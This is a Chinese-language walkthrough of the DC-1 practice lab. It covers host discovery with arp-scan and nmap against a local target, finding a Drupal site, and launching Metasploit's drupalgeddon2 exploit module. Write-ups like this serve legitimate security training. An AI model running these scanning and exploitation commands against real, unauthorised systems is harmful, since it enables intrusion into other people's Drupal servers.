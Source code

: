 ## DC-1靶场

kali：192.168.119.131

靶机：192.168.119.134

### 1.信息收集

（1）arp-scan -l

![image-20220930220432755](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202209302204784.png)

（2）netdiscover发现主机（比较慢，不推荐）

![image-20220930220254993](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202209302203188.png)

nmap扫描

```
使用命令：nmap -sS -sV -A -n 192.168.119.134
```

![image-20220930222209250](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202209302222308.png)

由nmap扫描可以知道，目标靶机开放了22,80,111,42875端口，看到端口号22想到[ssh](https://so.csdn.net/so/search?q=ssh&spm=1001.2101.3001.7020)远程连接，端口号80想到web网页攻击。后面两个端口暂时想不到有什么用，所以先放在一般后面可能会用到。所以直接访问网页。

![image-20220930224827607](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202209302248703.png)

先访问一下80端口，发现一个CMS，下标有个Drupal

### 2.漏洞发现

首先要了解一下``Drupal``，Drupal是开源CMS之一，Drupal是CMS内容管理系统，并且在世界各地使用，受到高度赞赏，Drupal可以作为开源软件免费使用，就是附带了cms的php开发框架。

搜了一下相关的drupal 漏洞 打开msf 看一下有哪些具体的模块可以使用`` exploit/unix/webapp/drupal_drupalgeddon2``

![image-20221001001513281](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010015326.png)



```
Name:漏洞名称
Disclosure Date：漏洞披露日期
Rank:漏洞等级，等级越高，利用效果越好
Check:
Description:漏洞描述信息
```

![image-20221001002733754](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010027786.png)

```
//使用模块
use exploit/unix/webapp/drupal_drupalgeddon2
//设置攻击ip
set rhost 192.168.119.134
//运行
exploit
```
